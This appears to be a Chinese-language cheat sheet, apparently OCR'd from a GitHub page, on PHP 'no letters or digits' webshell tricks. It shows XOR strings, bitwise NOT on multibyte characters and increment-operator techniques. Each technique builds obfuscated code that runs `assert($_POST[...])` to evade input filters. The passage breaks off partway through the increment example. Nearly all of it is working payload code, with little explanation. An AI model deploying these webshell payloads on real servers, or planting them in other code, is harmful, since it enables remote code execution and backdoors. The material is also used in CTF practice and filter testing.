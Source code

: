 可用更短的字符

```php
"`{{{"^"?<>/"//_GET
```



#### 非字母、数字的字符取反出字母

```php
<?php
$__=('>'>'<')+('>'>'<');//$__2
$_=$__/$__;//$_1

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});//$____=assert

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});//$_____=_POST

$_=$$_____;//$_=$_POST
$____($_[$__]);//assert($_POST[2])
```

简短写法,相当于直接把 utf8 编码的某个字节提取出来统一进行取反。

```php
${~"\xa0\xb8\xba\xab"} //$_GET
```



#### php 递增／递减运算符

* 因为 PHP 函数是大小写不敏感的，最终执行的是 ASSERT($POST[])，无需获取小写 a。

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
```